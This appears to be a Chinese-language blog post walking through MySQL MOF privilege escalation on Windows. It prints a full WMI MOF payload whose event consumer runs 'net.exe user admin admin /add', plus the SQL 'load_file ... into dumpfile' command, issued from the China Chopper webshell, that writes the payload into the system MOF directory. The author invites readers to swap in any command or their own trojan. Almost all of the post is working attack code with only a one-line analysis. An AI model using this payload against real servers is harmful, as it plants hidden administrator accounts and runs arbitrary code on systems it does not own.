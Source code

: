 ```yaml
---
layout: post
title: "mysql mof 提权"
description: ""
category: 渗透测试
tags: [mysql]
---
```

{% include JB/setup %}


## 参考资料 ##

[mof运行远控](http://zone.wooyun.org/content/2273)

[windows写权限变成可执行权限的利用](http://zone.wooyun.org/content/1806)

[利用代码](http://zone.wooyun.org/content/1795)

[exploitdb](http://www.exploit-db.com/exploits/23083/)

## 利用代码 ##

1.找个可写目录，我这里是C:\recycler\，把如下代码写到nullevt.mof文件里（也就是他源码里的payload）：

    #pragma namespace("\\\\.\\root\\subscription")
	instance of __EventFilter as $EventFilter
	{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
	};

	instance of ActiveScriptEventConsumer as $Consumer
	{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")";
	};

	instance of __FilterToConsumerBinding
	{
    Consumer   = $Consumer;
    Filter = $EventFilter;
	};


注意上面的net.exe user admin admin /add，可以随便改的，想执行啥都行，有没有参数也都行，执行自己的马也行。
再然后，在菜刀里连接mysql数据库后执行：

	select load_file('C:\\RECYCLER\\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';


## 分析 ##

本质上是写权限变可执行权限,将mof文件写入特定目录,导致其被执行.
